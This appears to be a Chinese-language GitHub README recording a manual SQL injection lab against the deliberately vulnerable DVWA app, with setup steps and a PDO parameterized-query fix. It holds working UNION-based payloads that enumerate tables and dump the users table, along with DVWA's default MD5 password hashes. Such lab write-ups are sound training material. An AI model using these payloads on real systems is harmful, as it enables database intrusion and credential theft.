


# dvwa-sql-injection
📌 项目简介
本项目记录在 DVWA（Damn Vulnerable Web Application）靶场中，手工完成 SQL 注入漏洞的检测与利用全过程。通过实战理解 SQL 注入原理、利用方式及防御方法。

🛠 实验环境
虚拟机：VMware 16 Pro + Kali Linux

靶场：DVWA (Damn Vulnerable Web Application)

Web 服务：Apache 2.4 + MySQL (MariaDB) + PHP 8.2

工具：浏览器、Burp Suite（可选）

🔧 环境搭建要点
在 Kali 中安装 LAMP 环境：sudo apt install -y apache2 mariadb-server php php-mysqli php-gd php-xml

将 DVWA 源码克隆到 /var/www/html/DVWA

配置数据库连接：config/config.inc.php 中设置数据库用户为 root，密码留空（根据实际修改）

解决 MySQL 认证问题：执行 ALTER USER 'root'@'localhost' IDENTIFIED BY '';

访问 http://127.0.0.1/DVWA/setup.php 初始化数据库

🔍 实验步骤（安全级别：Low）
1. 确认注入点
输入 1 正常返回；输入 1' 报错，确认存在 SQL 注入漏洞。

2. 判断字段数

使用 ORDER BY 猜测原查询的列数：

text
1' ORDER BY 1#   → 正常
1' ORDER BY 2#   → 正常
1' ORDER BY 3#   → 报错
得出字段数为 2。

https://screenshots/4.png

3. 获取当前数据库名和用户
text
1' UNION SELECT database(), user()#
返回：dvwa 和 root@localhost。

https://screenshots/5.png

4. 获取所有表名
text
1' UNION SELECT table_name, table_schema FROM information_schema.tables WHERE table_schema='dvwa'#
得到表：guestbook, users。 
https://screenshots/6.png 
5. 获取 users 表的列名
text
1' UNION SELECT column_name, data_type FROM information_schema.columns WHERE table_name='users'#
关键列：user, password。
https://screenshots/7.png
6. 导出用户名和密码
text
1' UNION SELECT user, password FROM users#
结果：
https://screenshots/8.png
https://screenshots/9.png
user	password (MD5)
admin	5f4dcc3b5aa765d61d8327deb882cf99
gordonb	e99a18c428cb38d5f260853678922e03
1337	8d3533d75ae2c3966d7e0d4fcc69216b
pablo	0d107d09f5bbe40cade3de5c71e9e9b7
smithy	5f4dcc3b5aa765d61d8327deb882cf99
（密码哈希可通过在线 MD5 解密得到明文，例如 admin 的密码为 password）

📝 实验总结
漏洞成因：应用程序直接将用户输入拼接到 SQL 查询中，未做任何过滤或参数化处理。

利用条件：原查询返回的列数需与 UNION 后的查询一致（此处为 2 列）。

风险：可窃取数据库中所有表的数据，甚至通过 INTO OUTFILE 写入 WebShell。

🛡 防御方法
使用参数化查询（预编译语句），示例（PHP PDO）：

php
$stmt = $pdo->prepare("SELECT * FROM users WHERE id = ?");
$stmt->execute([$id]);
🔗 后续计划
完成 DVWA 的 XSS、文件上传、盲注等模块

尝试 PortSwigger 的 SQL 注入实验室

📂 附件
详细操作截图（见 screenshots 文件夹）

所有使用的 SQL 注入 payload 见 [payloads.txt](payloads.txt)
